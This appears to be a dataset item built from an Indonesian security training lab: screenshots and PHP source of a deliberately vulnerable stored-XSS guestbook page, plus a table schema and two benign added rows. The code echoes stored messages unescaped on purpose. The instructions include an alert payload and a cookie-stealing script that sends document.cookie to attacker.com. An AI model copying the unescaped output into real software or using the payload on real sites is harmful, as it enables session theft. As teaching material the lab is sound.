
The page /modules/xss/stored.php on the database as committed earlier.

The same page on the database as committed later.
### tables this page shows
CREATE TABLE IF NOT EXISTS `guestbook` (
    `id` int(11) NOT NULL AUTO_INCREMENT,
    `name` varchar(50) NOT NULL,
    `message` text NOT NULL,
    `created_at` timestamp DEFAULT CURRENT_TIMESTAMP,
    PRIMARY KEY (`id`)
);

### modules/xss/stored.php (the view, shortened to what this page needs)
<?php
$base_path = '../../';
include '../../db.php';
$conn->query("CREATE TABLE IF NOT EXISTS guestbook (
    id INT AUTO_INCREMENT PRIMARY KEY,
    name VARCHAR(50),
    message TEXT,
    created_at TIMESTAMP DEFAULT CURRENT_TIMESTAMP
)");
include '../../includes/header.php';
?>
<div class="card">
    <div class="module-header" style="background: linear-gradient(135deg, #f59e0b, #d97706);">
        <h1>📢 Stored XSS (Guestbook)</h1>
        <p>XSS Tipe 2: Script berbahaya <strong>tersimpan permanen</strong> di database server.</p>
    </div>
    <div class="alert alert-info">
        <strong>📚 Langkah Percobaan:</strong>
        <ol style="margin-left: 1.5rem; margin-top: 0.5rem;">
            <li>Tulis pesan biasa: "Halo dunia".</li>
            <li>Tulis script: <code>&lt;script&gt;alert('Hacked')&lt;/script&gt;</code> dan Kirim.</li>
            <li>Setiap kali halaman ini direfresh atau dibuka user lain, alert akan muncul.</li>
            <li>Bayangkan jika scriptnya mencuri Cookies: <code>&lt;script&gt;window.location='http://attacker.com?cookie='+document.cookie&lt;/script&gt;</code>.</li>
        </ol>
        <a href="stored.php?clear=1" class="btn btn-sm btn-secondary" style="margin-top:0.5rem;">🗑️ Bersihkan Guestbook</a>
    </div>
    <div class="grid-2">
        <div>
            <h3>✍️ Tulis Pesan</h3>
            <form method="POST">
                <textarea name="message" placeholder="Tulis sesuatu..." rows="4" required style="width:100%"></textarea>
                <button type="submit" class="btn">Kirim Pesan</button>
            </form>
        </div>
        <div style="max-height: 400px; overflow-y: auto; background: #fff; padding: 1rem; border: 1px solid #ddd;">
            <h3>💬 Komentar Terbaru</h3>
            <?php
            $result = $conn->query("SELECT * FROM guestbook ORDER BY id DESC");
            while ($row = $result->fetch_assoc()) {
                echo "<div style='border-bottom:1px solid #eee; padding: 0.5rem 0;'>";
                echo "<strong>" . htmlspecialchars($row['name']) . ":</strong><br>";
                echo $row['message'];
                echo "<br><small style='color:gray'>" . $row['created_at'] . "</small>";
                echo "</div>";
            }
            ?>
        </div>
    </div>
</div>
<?php include '../../includes/footer.php'; ?>

### includes/header.php (shortened to what this page needs)
<!DOCTYPE html>
<html lang="id">
<head>
    <link rel="stylesheet" href="<?= $base_path ?>assets/css/style.css">
</head>
<body>
    <main class="main-content">
        <?php if (!isset($_SESSION['user_id'])): ?>
            <div style="text-align: center; margin-bottom: 2rem;">
                <h1 style="color: var(--primary);">🛡️ Security Labs</h1>
                <p>Platform Pelatihan Keamanan Siber Interaktif</p>
            </div>
        <?php endif; ?>

### includes/footer.php (shortened to what this page needs)
    </main>
</body>
</html>

### assets/css/style.css (style rules this page uses)
:root { --primary: #4f46e5; --primary-hover: #4338ca; --secondary: #64748b; --background: #f8fafc; --surface: #ffffff; --text: #0f172a; --text-muted: #64748b; --border: #e2e8f0; --success: #10b981; --danger: #ef4444; --warning: #f59e0b; --radius: 8px; --sidebar-width: 260px; --sidebar-bg: #1e293b; --sidebar-text: #f1f5f9; }
* { box-sizing: border-box; margin: 0; padding: 0; }
body { font-family: 'Inter', system-ui, sans-serif; background-color: var(--background); color: var(--text); line-height: 1.6; display: flex; min-height: 100vh; }
.main-content { margin-left: var(--sidebar-width); flex: 1; padding: 2rem; width: calc(100% - var(--sidebar-width)); }
.card { background: var(--surface); border-radius: var(--radius); padding: 1.5rem; box-shadow: 0 1px 3px rgba(0,0,0,0.1); margin-bottom: 1.5rem; border: 1px solid var(--border); }
.btn { display: inline-block; padding: 0.75rem 1.5rem; background-color: var(--primary); color: white; text-decoration: none; border-radius: var(--radius); font-weight: 500; border: none; cursor: pointer; transition: background 0.2s; }
.btn-secondary { background-color: var(--secondary); }
input, textarea, select { width: 100%; padding: 0.75rem; margin-bottom: 1rem; border: 1px solid var(--border); border-radius: var(--radius); background: var(--background); color: var(--text); }
h1, h2, h3, h4 { margin-bottom: 1rem; color: var(--text); }
.alert { padding: 1rem; border-radius: var(--radius); margin-bottom: 1rem; border-left: 4px solid; }
.alert-info { background: #eff6ff; border-color: var(--primary); color: #1e40af; }
code { font-family: monospace; background: rgba(0,0,0,0.05); padding: 0.2rem 0.4rem; border-radius: 4px; color: var(--primary); }

Rows that differ between the two databases and show on the page:
added guestbook: name "Siti", message "Belajar keamanan web ternyata seru ya.", created_at "2025-12-29 11:42:38"
added guestbook: name "Budi", message "Halo, website ini sangat bermanfaat!", created_at "2025-12-29 11:42:38"
